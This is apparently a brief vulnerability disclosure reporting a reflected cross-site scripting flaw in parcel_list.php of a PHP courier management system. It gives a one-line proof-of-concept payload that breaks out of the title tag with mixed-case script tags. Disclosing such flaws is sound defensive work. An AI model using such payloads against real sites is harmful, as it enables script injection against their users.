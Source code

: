 * Exploit Title: best-courier-management-system - reflected xss

* Software Link: https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html

* Version: 1.0  

* Vulnerable file:parcel_list.php
![image](https://github.com/BigTiger2020/2023/blob/main/best-courier-management-system/xss-2.png)


* POC:  
</TiTlE><ScRiPt>alert(1)</ScRiPt>

![image](https://github.com/BigTiger2020/2023/blob/main/best-courier-management-system/xss-2mpng.png)   
